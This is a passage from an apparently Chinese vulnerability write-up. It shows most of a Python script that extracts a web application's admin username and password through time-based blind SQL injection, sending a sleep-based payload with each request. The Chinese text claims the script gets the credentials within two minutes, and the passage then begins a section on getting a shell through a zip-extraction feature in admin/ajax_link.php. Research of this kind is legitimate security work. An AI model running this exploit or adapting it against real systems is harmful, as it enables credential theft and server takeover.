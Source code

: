 ```bash
            break
        if length > 9999:
            print("[-] No Vuln")
            exit(-1)
    print(f"[+] Success, Secret Length: {length}")
    user_and_pwd = ""
    secret_payload = "ord(substring(({origin_payload}), {start}, 1))"
    for index in range(1, length + 1):
        for char in fuzz_string:
            _secret_payload = secret_payload.format(origin_payload=origin_payload, start=index)
            final_secret_payload = f"0'>if({_secret_payload}={ord(char)},sleep({timeout})&exp(999),exp(999))>'"
            # print(f"[*] Tring Secret Char: {char}")
            r2 = post(target, cookie, authcode, final_secret_payload)
            if r2.elapsed.total_seconds() > timeout-1:
                user_and_pwd += char
                break
            if fuzz_string.find(char) == (len(fuzz_string) - 1):
                print("[-] Error, Fuzz string is not in correct strings!!!")
                exit(-1)
        print(f"[+] Secret: {user_and_pwd}")
    return user_and_pwd
```

网络情况好的话，可以在两分钟内拿到后台的账号和密码

[![](assets/1701606448-a1bfbfe2c9c6887f1843534647c85b21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135414-6540710a-8ce9-1.png)

## 解压无文件 GetShell

  浏览后台目录的文件时，有一个解压 zip 的操作成功吸引我的注意，漏洞文件位于：`admin/ajax_link.php`
